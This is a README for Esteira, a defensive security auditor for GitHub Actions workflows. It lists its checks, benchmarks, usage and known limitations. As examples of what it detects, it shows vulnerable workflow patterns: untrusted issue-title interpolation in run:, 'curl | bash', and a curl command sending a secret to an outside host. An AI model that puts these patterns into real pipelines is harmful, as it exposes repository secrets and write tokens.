

<p align="center"><a href="README.md"></a></p>

<a href="https://paulo-marcos-lucio.github.io"></a>

<div align="center">

# ⚙️ Esteira
<sub>Portuguese for "Conveyor Belt"</sub>

### Security auditor for your **CI/CD pipeline** — focused on GitHub Actions.

*Finds the mistakes that turn a pipeline into an entry point: **script injection** via untrusted context, **actions not pinned by SHA**, **`pull_request_target`** checking out PR code, **broad permissions** on the `GITHUB_TOKEN`, and secrets leaking into logs. Output to console, JSON, and **SARIF** (GitHub's Security tab).*

[](https://github.com/Paulo-Marcos-Lucio/esteira/actions/workflows/ci.yml)
[](https://github.com/Paulo-Marcos-Lucio/esteira/actions/workflows/codeql.yml)
[](https://www.python.org/)
[](LICENSE)
[](https://github.com/astral-sh/ruff)
[](https://mypy-lang.org/)
[](https://github.com/Paulo-Marcos-Lucio/esteira/actions/workflows/ci.yml)
[](https://github.com/Paulo-Marcos-Lucio/esteira/actions/workflows/ci.yml)
[](https://owasp.org/Top10/)

</div>

---

## 📌 Why audit the pipeline

CI runs with **secrets** and a **token with write permission** on the repository. A misconfiguration there doesn't take down a website — it hands over the keys to the kingdom. The most exploited patterns:

- **Script injection**: `run: echo "${{ github.event.issue.title }}"` — an issue title (controllable by anyone) becomes a shell command.
- **Supply chain**: `uses: acme/action@v1` — the tag can be moved to point at malicious code at any time. Pinning by SHA freezes what actually runs.
- **`pull_request_target`** + PR checkout: runs **untrusted code** with secrets and a write-permission token.
- **`permissions: write-all`**: gives the workflow (and every third-party action inside it) power it doesn't need.

Esteira finds these patterns and explains the fix — with line number and OWASP/CWE mapping.

---

## 🔎 What it checks

The catalog's 17 checks — the same list `esteira rules` prints (a test fails CI if
this table diverges from the catalog, including on severity).

| Check | Risk | Severity | OWASP 2025 / CWE |
| --- | --- | --- | --- |
| `script-injection` | Untrusted context (`github.event.*`, `head_ref`) in `run` | 🔴 Critical | A05 · CWE-94 |
| `pull-request-target-checkout` | Checkout of PR code in `pull_request_target` | 🔴 Critical | A08 · CWE-94 |
| `unpinned-action-thirdparty` | Third-party action pinned by tag, not by SHA | 🟠 High | A03 · CWE-1357 |
| `secret-to-thirdparty-action` | `GITHUB_TOKEN`/secret passed via `with:` to a third-party action **not** pinned by SHA | 🟠 High | A03 · CWE-522 |
| `broad-permissions` | `write-all` / global write scopes | 🟠 High | A01 · CWE-732 |
| `secret-in-run` | Secret printed via `echo`/`printf` (or in `github-script`'s `console.log`) — or exported to `$GITHUB_ENV`, which hands it to every subsequent step (🟡 Medium) | 🟠 High | A09 · CWE-532 |
| `checkout-credentials-in-artifact` | Checkout without `persist-credentials: false` + `upload-artifact` publishing the workspace | 🟠 High | A02 · CWE-522 |
| `insecure-commands` | `ACTIONS_ALLOW_UNSECURE_COMMANDS` re-enables `set-env`/`add-path` (CVE-2020-15228) → environment/PATH injection | 🟠 High | A05 · CWE-94 |
| `invalid-yaml` | Workflow that fails to parse (structural analysis skipped — **fail-closed**) | 🟠 High | — · CWE-1288 |
| `curl-pipe-shell` | `curl \| bash` — code from the network with no verification | 🟡 Medium | A03 · CWE-494 |
| `self-hosted-runner` | Self-hosted runner (risk on a public repo) | 🟡 Medium | A08 · CWE-668 |
| `secrets-inherit` | `secrets: inherit` hands the entire vault to the reusable workflow | 🟡 Medium | A03 · CWE-522 |
| `dangerous-trigger` | `pull_request_target` / `workflow_run` / `issue_comment` | 🔵 Low | A08 · CWE-269 |
| `unpinned-action-firstparty` | Official action pinned by tag | 🔵 Low | A03 · CWE-1357 |
| `unpinned-reusable-workflow` | Reusable workflow pinned by branch/tag | 🔵 Low | A03 · CWE-1357 |
| `unpinned-container-image` | `container:`/`services:`/`docker://` image pinned by tag, not by digest | 🔵 Low | A03 · CWE-1357 |
| `missing-permissions` | No explicit `permissions` block | 🔵 Low | A01 · CWE-732 |

> **OWASP edition:** the labels are from **Top 10:2025**. The year matters — `A03` is *Software Supply
> Chain Failures* in 2025 and was *Injection* in 2021. Anyone consuming the report by machine reads the
> `owasp_edition` field in the JSON/SARIF instead of parsing the string.

---

## 🔬 What was measured

Numbers from this run — all **reproducible with `pytest` in this repository** (249 passing tests). These aren't marketing estimates; they're the ruler that catches regressions.

> **Honest comparison against zizmor** (the domain's mature incumbent): the suite's reproducible benchmark lives at [guardiao/BENCHMARK.md](https://github.com/Paulo-Marcos-Lucio/guardiao/blob/main/BENCHMARK.md) — pinned versions and commits — and it states where Esteira finds less than zizmor. Where Esteira wins is precision on a clean repository and calibration; **we don't sell coverage superiority**.

- **17 out of 17 checks** fire at the **test-pinned** severity against synthetic cases, with **zero severity drift**. The catalog meta-test is merciless: a new check is born red until it has a positive case, a declared severity, an OWASP label for the edition, and a row in this table — downgrading `script-injection` from Critical to Low (which would open the CI gate) fails the suite.
- **Zero false positives** on the hardened workflow that **pins actions by SHA** and declares `permissions: contents: read`: it comes back with **no findings**. Pinning by SHA and declaring the minimum is exactly what the tool charges for — whoever already does it gets no noise.
- **Labeled, versioned, public corpus** in [`bench/`](bench/): 18 positive workflows (**20 labeled findings**, covering **17 of 17** rules in the catalog) and 5 negatives with **8 trap lines**. `python bench/avaliar.py` measures recall and precision with a **Wilson interval** and exits with code 1 if a false positive or false negative shows up; the same battery runs under `pytest`, so a corpus that rots breaks CI. Measured on 2026-08-05: **20/20 recall, 95% CI [84% ; 100%], zero false positives**. **What this number is not:** the workflows were written by the same person who wrote the tool; it measures catalog coverage against canonical cases, not accuracy against production pipelines. The limits are listed in `bench/README.md`.
- **ReDoS eliminated in the gate itself.** The `curl | bash` pattern had exponential backtracking: a 129-character `run:` line stalled the scan for **7.1 s**, and every ~19 extra characters multiplied the time by ~14 (≈90 s on a ~150-character line, headed straight for the job *timeout* — the tool became the DoS of the very pipeline it audits). Today the same input takes **< 0.01 s** (measured: ~0.00002 s), with a **timing test** that fails on regression.

---

## ⚡ Quickstart

From zero to your first report in three commands. **Prerequisite:** Python **3.10+** and `git`.

```bash
# 1. install from Git (the PyPI name belongs to someone else — see below)
pipx install "git+https://github.com/Paulo-Marcos-Lucio/esteira.git"

# 2. audit the current repository's workflows
cd meu-repositorio
esteira scan .

# 3. (optional) generate the SARIF for GitHub's Security tab
esteira scan . -f sarif -o esteira.sarif
```

`scan .` recursively looks for `.github/workflows/*.yml` and prints each finding with
**line, severity, suggested fix**, and an action plan. It exits with **code 1** when there is a
`high`+ finding (the default), so it already works as a CI gate with no extra configuration. Real
example (fixture with `pull_request_target` + PR-title interpolation in `run:`):

```
Sev      Checagem            Local                          Detalhe
CRÍTICA  script-injection    .github/workflows/deploy.yml:8 Contexto não-confiável interpolado
BAIXA    missing-permissions .github/workflows/deploy.yml:1 Sem bloco 'permissions'
BAIXA    dangerous-trigger   .github/workflows/deploy.yml:2 Gatilho privilegiado em uso
...
4 achado(s) em 1 workflow(s) —  CRÍTICA: 1    BAIXA: 3     (exit 1)
```

---

## 🚀 Installation

```bash
pipx install "git+https://github.com/Paulo-Marcos-Lucio/esteira.git"   # or pip install
```

Or from a clone:

```bash
git clone https://github.com/Paulo-Marcos-Lucio/esteira.git
cd esteira
pip install .        # or: pip install -e ".[dev]"
```

> **Don't use `pip install esteira`.** The `esteira` name on PyPI belongs to **someone else** (an
> automation server, from 2021) — the `esteira` command doesn't even exist in that package. This project isn't
> published on PyPI; install it from Git, as above. In CI, pin the install by SHA
> (`...esteira.git@<sha-de-40-hex>`) — it's the same practice Esteira demands of your actions.

---

## 🧑‍💻 Usage

```bash
# audits the current repository's workflows (.github/workflows)
esteira scan .

# in JSON, failing the pipeline on High+ findings
esteira scan . -f json --fail-on high

# SARIF for GitHub's Security tab
esteira scan . -f sarif -o esteira.sarif

# points straight at a file
esteira scan .github/workflows/deploy.yml

# runs only (or skips) specific checks — repeat the flag for several
esteira scan . --only script-injection --only broad-permissions
esteira scan . --skip unpinned-action-firstparty

# lists the checks
esteira rules
```

### `scan` flags

| Flag | Default | When to change it |
| --- | --- | --- |
| `-f, --format` | `console` | `json` to consume by machine; `sarif` for GitHub's Security tab |
| `-o, --output` | *(stdout)* | writes the report to a file (required for anything other than `console`; passing `-o` with `--format console` is a usage error → exit 2) |
| `--fail-on` | `high` | `critical` loosens the gate; `low`/`medium` tightens it. `none` never fails (report only) |
| `--only` | *(all)* | focuses a triage on one or more checks (id from the `esteira rules` column); unknown id → exit 2 |
| `--skip` | *(none)* | silences a check that's noisy in your context without turning off the rest |
| `--perfil` | *(none)* | `oss-publico` or `interno` — adjusts severity by the repository's real context (see below) |

### Severity profiles (`--perfil`)

The catalog declares ONE default severity per check, but the same finding doesn't weigh the
same in every context. A self-hosted runner is an open door on a public repo — any fork PR
from anyone triggers it; on the same repo closed to the public, only people who already have
push access can open a PR, and the risk becomes just infrastructure hygiene.

```bash
esteira scan . --perfil oss-publico   # PRs from anyone, from outside
esteira scan . --perfil interno       # only people who already have push open PRs
```

What changes, per check (catalog default → profile):

- **`self-hosted-runner`**: 🟡 Medium → 🔴 Critical under `oss-publico`; → 🔵 Low under `interno`.
- **`dangerous-trigger`**: 🔵 Low → 🟡 Medium under `oss-publico`; unchanged under `interno`.
- **`missing-permissions`**: 🔵 Low → 🟡 Medium under `oss-publico`; unchanged under `interno`.

The applied profile is in the envelope (`profile` in JSON and SARIF, `null` when the flag
isn't used), and every adjusted finding carries the **justification** for why it changed
(`severity_note` in JSON, its own panel on the console) — a severity that differs from the
catalog never shows up as a mute number. Checks outside this table (injection, exposed
secrets, supply-chain pinning) weigh the same in any context, and no profile touches them.

### Inline suppression (per line)

Marked a spot as reviewed and safe? Suppress it **on the finding's line**:

```yaml
- uses: minha-org/action-interna@v2  # esteira: ignore[unpinned-action-firstparty]
```

`# esteira: ignore[rule]` is **scoped**: it only silences the named check, so it doesn't
accidentally hide another finding on the same line. `# esteira: ignore` (no brackets) silences the whole line.
A `# zizmor: ignore` mark from another auditor is also honored as a "reviewed line."

### Inside GitHub Actions itself

```yaml
- run: pip install "git+https://github.com/Paulo-Marcos-Lucio/esteira.git@<sha-de-40-hex>"
- run: esteira scan . --fail-on high -f sarif -o esteira.sarif
- uses: github/codeql-action/upload-sarif@08d09a53f0f5d694f253bd25732e4429c9e9337f # v3
  if: always()
  with:
    sarif_file: esteira.sarif
```

### Exit codes and `--fail-on`

| Exit code | Meaning |
| --- | --- |
| `0` | No finding at or above the `--fail-on` level (includes "path exists but has no workflow" — the warning goes to stderr) |
| `1` | Finding with severity `>= --fail-on` |
| `2` | Usage error: nonexistent path, unknown ID in `--only`/`--skip`, `--output` with `--format console` |

`--fail-on` accepts `none · info · low · medium · high · critical`. **Esteira's default is `high`**.
The defaults are **not** the same across the whole suite, and that's deliberate: Guardião (secrets) uses
`medium`, because the consequence of a leaked credential is categorically worse than that of a
missing header — a secrets scanner should have the more sensitive trigger.

| Tool | `--fail-on` default |
| --- | --- |
| Esteira | `high` |
| Chaveiro | `high` |
| Sentinela | `alta` (PT vocabulary) |
| Guardião | `medium` |

---

## 🔓 Pro Version (private) — guided hardening of your CI/CD chain

**The engine is the same one in this repository** — the same catalog of 17 checks that gates CI here, with the same field numbers (17 of 17 firing at the pinned severity, zero false positives on the hardened workflow). The Pro version **is not a secret engine**: it's a **service** — the human work layered on top of the engine you can already run.

| Dimension | Public tool (you run it) | Pro · service (I run it with you) |
| --- | --- | --- |
| **Engine** | same engine, same catalog of 17 checks, same output | **the same engine** — there's no hidden engine; what changes is the work on top of it |
| **Scope** | one repository / one path at a time | **whole organization / monorepo**, with every finding adjudicated (I discard the false positive, confirm the real one) |
| **Finding** | flagged with line, severity, and fix | **fix applied via Pull Request**: SHA-pinning the actions, minimal per-job permissions, `pull_request_target` isolation, secrets kept out of logs — the *diff* ready to review and merge |
| **Evidence** | console / JSON / SARIF report you generate | versioned SARIF/JSON **before × after** (OWASP **A03:2025 — Software Supply Chain Failures**), for audit and compliance |
| **Continuity** | you rerun it whenever you want | **retest after the merge** + team mentoring so the hardening doesn't regress on the next workflow |

> Service provided on pipelines you maintain or are authorized to review (see *Ethical use*). Your deploy runs with a write token and secrets — a mistake there hands over the kingdom; the service is closing that door, diff in hand, before anyone walks in.

<div align="center">

[](https://paulo-marcos-lucio.github.io)
[](https://www.linkedin.com/in/paulo-marcos-a07379174/)

</div>

---

## 🏗️ Architecture

Esteira reads your repository's workflow files (`.github/workflows/*.yml` and the `action.yml` of composite actions), looks for the patterns that turn CI into an entry point, and returns each finding with line number, severity, and fix. The data path is short and linear: the **loader** discovers and parses the workflows; the **engine** runs the detectors — line-based and structural — file by file; each pattern becomes a **Finding** that the **catalog** stamps with severity and an OWASP/CWE label; and the **renderers** deliver the result to console, JSON, or SARIF. If a file fails to parse, it isn't silently skipped — it becomes an `invalid-yaml` finding (fail-closed). In 20 seconds: pipeline YAML goes in, an actionable report of what to fix and why comes out.



```
src/esteira/
├── core/        # models + loader (recursive workflow discovery, YAML parsing)
├── checks/      # declarative catalog, detectors (line-based + structural), engine
├── report/      # console (rich), json, sarif
└── cli.py       # typer interface
```

**Structural** detection: when the YAML parses, the checks walk the already-parsed tree (`jobs → steps → run/uses/with`). This way, `${{ }}` inside `env:` or inside a comment isn't mistaken for shell, `run:`'s *plain scalars* are covered in full, indirection through `env` (including chained indirection) is resolved, and bracket notation (`github['event']['issue']['title']`) is normalized before matching. Only when the file **fails** to parse does it fall back to a best-effort, line-based pass — and the syntax error itself becomes a high-severity `invalid-yaml` finding (**fail-closed**: an unanalyzed file doesn't sail through CI hidden behind an error). The loader handles the classic YAML 1.1 *gotcha* (`on:` → boolean `true`), and the scan is shielded per file: no single parse exception brings down the analysis of the rest. In a **monorepo**, discovery is recursive: it finds every `.github/workflows/` under the given path — the repository's own and each subproject's — pruning vendored dependency directories (`node_modules`, `vendor`, …) and hidden caches/VCS folders so it doesn't audit a dependency's CI as if it were your own.

---

## 🔬 Engineering quality & method

**Gates, measured right now in this repo:** 249 passing tests (including *property-based* tests with Hypothesis) · **96%** coverage (gate `--cov-fail-under=93`, the measured value rounded down — an anti-regression lock, not an aspiration) · `mypy --strict` clean (16 files) · `ruff` lint + format clean (36 files) · CI on a **Python 3.10 / 3.11 / 3.12** matrix (`fail-fast: false`). The command lives in `pyproject.toml`, not in the YAML: dev and CI run the same line.

**A test that fails the façade, not the appearance.** Severity is what decides whether the client's CI fails; that's why it's pinned in an independent dict and compared against the catalog in `test_severidade_de_toda_checagem_esta_fixada` — downgrading `script-injection` from Critical to Low (which would open the gate) fails the suite before merge. A companion meta-test requires that **every** new check be born with a positive case that actually fires; and the ReDoS test **times itself**: the fixed form of `curl | bash` runs in < 0.5 s where the broken one took 7.1 s, with a sibling test guaranteeing that "got fast" didn't turn into "stopped detecting."

**Architecture — only what's in the code:**

- **Separation of concerns:** `core/` (models + YAML loader) × `checks/` (catalog, detectors, engine) × `report/` (console, json, sarif) × `cli.py`.
- **Single source of truth:** severity + OWASP/CWE label + recommendation live only in `checks/catalog.py` (one `CheckMeta` per check); all three renderers read from it, with no duplicated labels.
- **Versioned output contract:** JSON with `schema: suite-appsec/1` and SARIF **2.1.0** (`$schema` from schemastore, the full catalog as `rules`) for the Security tab.
- **Report traceable to a commit:** the JSON envelope — and SARIF's `runs[0].properties` — carry `commit` (the commit of the **audited** repository: `ESTEIRA_COMMIT` → `git rev-parse HEAD` → `null` outside a git repo), `ruleset_hash` (SHA-256 of the 17-check catalog), and `artifact_sha256` (self-hash of the report). Without all three, a finding that disappears in the next delivery is indistinguishable from a rule that was loosened. **To verify `artifact_sha256`:** set the field to `null`, serialize with `json.dumps(doc, sort_keys=True, ensure_ascii=False, separators=(",", ":"))`, and take the SHA-256 of the UTF-8 bytes.
- **Credential redaction in evidence:** `evidence` copies a snippet of the workflow line — and the `secret-in-run` rule exists precisely to find the line with the secret. Every credential of a **known format** (AWS, GitHub PAT, Stripe, Slack, Google, npm, PyPI, GitLab, SendGrid, JWT, PEM block) comes out masked at the edges — in the console, in the JSON, and in SARIF's `snippet`. Redaction happens **before** the 120-character truncation, otherwise a secret starting at character 110 would come out with 10 raw characters exposed. There is no generic entropy rule, by design: it would chew through the 40-hex SHA of an action pin, which is the main evidence for `unpinned-action-*`. **Accepted limitation:** a credential of unknown format (a bare password, an internal token) is not redacted.
- **Strict types and immutability:** `mypy --strict`, `from __future__ import annotations` in every module, and the domain models (`Finding`, `CheckMeta`) are `@dataclass(frozen=True)`.

**The repo's own supply chain:** the CI's three actions are pinned by **40-hex SHA** (not by tag), with `dependabot.yml` updating actions and pip weekly — pinning without updating freezes the vulnerable version. Checkout uses `persist-credentials: false`, the job declares `permissions: contents: read`, and a `self-scan` job has Esteira audit its own pipeline (`--fail-on low`): the CI practices what the tool preaches.

**PT-BR in code, tests, and docs** is a deliberate consistency decision: test names, finding messages, and recommendations speak the language of whoever reads the report.

---

## ⚖️ Ethical use

A **defensive** tool, for auditing pipelines you maintain or are authorized to review. Findings are flagged along with the fix — the goal is to harden, not to exploit.

---

## 🚧 Known limitations

Static analysis doesn't replace human review, and Esteira is upfront about what it does **not** cover today:

- **Secret exfiltration over the network** (`curl -d "t=${{ secrets.X }}" host`) is not flagged: sending a token to a legitimate host (`Authorization: Bearer`) is normal usage, and flagging it would generate too many false positives. What is flagged is the secret printed to stdout (`echo`/`printf` in `run:`, `console.log`/`core.info` in `github-script`) and the secret exported to `$GITHUB_ENV`. **`$GITHUB_OUTPUT` is not yet flagged** — the propagation is analogous, but it hasn't been field-adjudicated, and an unmeasured rule is potential noise.
- **Taint propagation through `steps.*.outputs` / `needs.*.outputs`** is not tracked: if a step captures untrusted context into an output (`echo "x=${{ github.event.issue.title }}" >> "$GITHUB_OUTPUT"`) and **another** step later interpolates `${{ steps.id.outputs.x }}` directly in `run:`, only the **origin line** is flagged — the second use passes through. This is a deliberate trade-off: flagging every `steps.*.outputs`/`needs.*.outputs` in shell would generate too many false positives (most outputs carry trusted data). Fix the origin — that's where the alert shows up.
- **`with.args`/`entrypoint` of `docker://` actions** are not inspected; the execution sinks scanned are `run:` and the `script:` of `actions/github-script`.
- **Runner coverage** is limited to literal labels and statically resolvable `matrix` values; a `runs-on` with a dynamic, non-resolvable expression is not classified.
- **`curl | bash` with more than 3 chained wrappers** (`sudo env time nice …`) stops matching. This is a deliberate trade-off: the unbounded form of the pattern had exponential backtracking, and a 129-character `run:` line stalled the scan for 7 s (and a ~160-character one, for hours) — a DoS of the audit gate itself.
- **`checkout-credentials-in-artifact`** requires both sides of the leak: a checkout without `persist-credentials: false` **and**, after it, an `upload-artifact` publishing the workspace root. A credential exfiltration through another path (a `run:` that manually packages up `.git`) is not detected.
- **A path with no workflow at all** exits with code **0**, not 1 or 2: the warning goes to stderr. Anyone who wants to treat "repository with no CI" as an error needs to check `summary.files_scanned` in the JSON.

Contributions that close these gaps (with regression tests) are welcome.

---

## 🧭 Roadmap

- [x] Monorepo support (scanning multiple `.github/workflows`).
- [x] Check for `GITHUB_TOKEN` passed to third-party actions.
- [x] **Suggested** auto-fix (env indirection for script injection) — the finding ships with the fix pattern ready to apply (move the expression into `env:` and use `"$VAR"`/`process.env`); the tool suggests, it doesn't rewrite the YAML.
- [ ] Dedicated secret-exfiltration detector (with a host allowlist).
- [ ] Rules for GitLab CI and Azure Pipelines.

---

## 📄 License

[MIT](LICENSE) © 2026 Paulo Marcos Lucio.

---

<div align="center">
<sub>Part of the AppSec suite — alongside <a href="https://github.com/Paulo-Marcos-Lucio/sentinela">Sentinela</a>, <a href="https://github.com/Paulo-Marcos-Lucio/guardiao">Guardião</a>, and <a href="https://github.com/Paulo-Marcos-Lucio/chaveiro">Chaveiro</a>.</sub>
</div>
